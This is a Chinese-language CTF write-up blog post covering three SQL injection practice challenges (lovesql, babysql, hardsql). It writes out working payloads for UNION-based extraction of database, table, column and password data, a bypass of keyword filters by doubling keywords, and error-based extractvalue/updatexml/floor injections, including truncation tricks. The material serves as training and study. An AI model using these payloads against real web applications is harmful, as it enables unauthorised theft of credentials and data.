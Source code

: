 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      对于多种sqli的练习与总结(一)               # 标题 
subtitle:   实操加强对sqli的熟悉度
date:       2020-04-01             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


> 以下为做完题之后的整理，对于个人来说为了形成一个测试流程习惯

## 0x00：堆叠注入-lovesql
首先进入页面，发现有两个输入框，分别对于用户名和密码加上单引号测试闭合。  
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/1.jpg?raw=true)  
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/2.jpg?raw=true)  
报错点在密码处，首先尝试最简单的联合注入查询，通过select 语句探询字段数以及观察回显字段。  
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/3.jpg?raw=true)    
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/4.jpg?raw=true)  
发现在第三个字段回显信息，那个我们可以利用以下语句找到flag。  
` 123' union select 1,2,concat(database())#`  这条语句可以找到数据库‘geek’   
` 123' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='geek'#`  
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/5.jpg?raw=true)  
` 123' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#`  
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/6.jpg?raw=true)  
` 123' union select 1,2,group_concat(password) from l0ve1ysq1#`  
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/7.jpg?raw=true)  
找到flag，copy下来就容易看出了。  
总结一下：该sqli没有过滤，在使用联合查询注入这个简单注入时没有受到阻拦，使用group_concat是为了将整个字段的内容连接起来避免遗漏，
使用到了mysql特性数据库information_schema库，本次练习旨在提高熟悉程度以及小知识点的巩固。

## 0x01绕过简单规则-babysql
首先进入页面，依旧测试注入点，依旧和上述一样，用户密码为不同的输入，都加上单引号测试闭合以及注入点，这里就暂时不放上来了。   
测试一下联合注入：`23' union select 1,2,3#`  
报错回显：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/8.jpg?raw=true)  
仔细一看，我们的union和select去哪了？？？？原来过滤规则将union、select替换为空字符，可以猜测敏感词都会替换为空，分析一下，用户的输入会经过一次遍历，查找到危险词汇就会替换为空。
由之前学习得知，双写这些词，就可以绕过：`123' uniunionon seleselectct 1,2,3#` 
成功回显：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/9.jpg?raw=true)  
那么我们就来fuzz一下，看看哪些词会被替换成空，打开burp，接下来就是载入自己的sql字典遍历一下看一看：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/10.jpg?raw=true)  
这就知道了哪些词汇会被替换，我们要使用的时候直接双写！！！
由于步骤和以上一样，就简单记录一下payload，不放图了（有点懒哈哈哈哈）  
` 123' uniunionon seleselectct 1,2,concat(database())#`  
` 123' uniunionon seleselectct 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema='geek'#`  
` 123' uniunionon seleselectct 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql'#`  
` 123' uniunionon seleselectct 1,2,group_concat(passwoorrd) frfromom b4bsql#`  
总结一下：该题目添加了简单的过滤规则，输入比较容易绕过的类型，此处我使用了burp去遍历过滤词，便于后续的payload构造，此处依旧是联合注入，还是比较简单的一道题目。

## 0x02hardsql
首先进入页面，依旧开始测试注入点，还是和之前一样，密码为注入点，单引号闭合，#没有过滤，接着测试联合注入，页面响应为：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/11.jpg?raw=true)  
有过滤规则，统一了错误页面，那么开始测试哪些sql用词被过滤，依旧打开burp，遍历过滤词：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/12.jpg?raw=true)  
可以看到过滤了空格、等号这些偏符号的都过滤了，联合注入也不能使用了，尝试堆叠注入，由于堆叠注入的使用条件非常有限，我们测试一下看看：
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/13.jpg?raw=true)  
可以看出这大概是不行的了，没法执行多条语句。接下来剩下报错注入和盲注，先尝试报错注入，所用到的所有词都没有过滤，由于这里空格被过滤了，用其他符号来代替完成：  
`123'^extractvalue(1,concat(0x7e,(select(database())),0x7e))#`  
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/14.jpg?raw=true)  
报错信息回显，利用xpath错误回显我们需要的信息,那么就是说我们报错注入是成功的，接下来构造相关语句：
`123'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek'))),0x7e))#`
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/15.jpg?raw=true)  
`123'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))),0x7e))#`
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/16.jpg?raw=true)  
`123'^extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e))#`  
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/17.jpg?raw=true)  
咦，这个时候只显示了一半，搜索了一下，发现extractvalue和updatexml这两个常用的报错注入函数能查询的字符串最大长度为32，在显示内容过多时，可用截取函数substr或者left，right来截取或者使用concat函数的参数位置调换以此获取前后信息。  
这里我们就利用left或者right来尝试一下  
`123'^extractvalue(1,concat(0x7e,(select(right((password),30))from(H4rDsq1)),0x7e))#`    
![](https://github.com/z0L1n/pic/blob/master/2002/sql1/18.jpg?raw=true)  
这个时候我们拼接一下就完成了，这里总结以下：题目存在统一错误页面而且有错误信息回显，报错注入有一些会使用函数参数来返回错误信息，这一题使用到的是extractvalue，同类型的还有updatexml，都是利用xpath报错返回信息。    
通过ExtractValue报错,注入语句如下:
`and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));`  
通过UpdateXml报错,注入语句如下:
`and 1=(updatexml(1,concat(0x3a,(select user())),1))`   
拓展一下经常看见的双查询：  
通过floor报错,注入语句如下:   
`and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);`这个报错查询主要是利用主键重复产生错误信息来回显。















